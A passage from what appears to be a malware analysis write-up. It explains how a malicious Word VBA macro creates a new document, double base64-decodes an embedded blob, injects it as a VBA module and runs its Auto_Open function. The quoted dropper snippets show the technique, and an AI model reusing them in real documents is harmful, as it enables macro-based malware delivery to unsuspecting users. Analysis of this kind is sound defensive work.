 ## VBA

### Raw

The VBA in this document actually interfaces with Word to create a new
document, put VBA into it, and then call the `AutoOpen` function from it.
We’ll walk through the interesting blocks.

Inside the `DocumentOpen` function, first it creates two strings. `comStr` is
a large base64-encoded blob. `chckT` is “bin”

    
    
        comStr = s01
    
        chckT = "bi"
        chckT = chckT + "n."
    

Next, it uses `GetObject` to get a reference to MicrosoftWord, and then adds a
new item. `merrFolder` will be something like “Document1”, or a higher number
if there are already other unsaved documents open. It also adds a VB component
to the document.

    
    
        Set errDesktop = GetObject("new:000209FF-0000-0000-C000-000000000046")
        Set merrFolder = errDesktop.Documents.Add
        merrFolder.ActiveWindow.Visible = True
        Set objectFile = merrFolder.VBProject.VBComponents.Add(1)
    

Next it does a similar bit with MSXML, getting an object, creating an element.
Then it calls a function, `firstDe`, passing in the base64-encoded blob and
the MSXML object:

    
    
        Set gtypeDesktop = GetObject("new:2933BF90-7B36-11D2-B20E-00C04F983E60")
        Set mlngCode = gtypeDesktop.createElement("merrFound")
        comStr = firstDe(comStr, mlngCode)
    

`firstDe` uses MSXML’s `StrConv` function to base64-decode the blog and return
it:

    
    
    Function firstDe(comStr, mlngCode)
        mlngCode.DataType = "bin.base64"
        mlngCode.Text = comStr
        blnCurrent = mlngCode.NodeTypedValue
        firstDe = StrConv(blnCurrent, vbUnicode)
    End Function
    

Next, the string “base64” is formed, and then the blob is base64-decoded a
second time, and then added to a CodeModule. Finally, that module’s
`Auto_Open` function is run:

    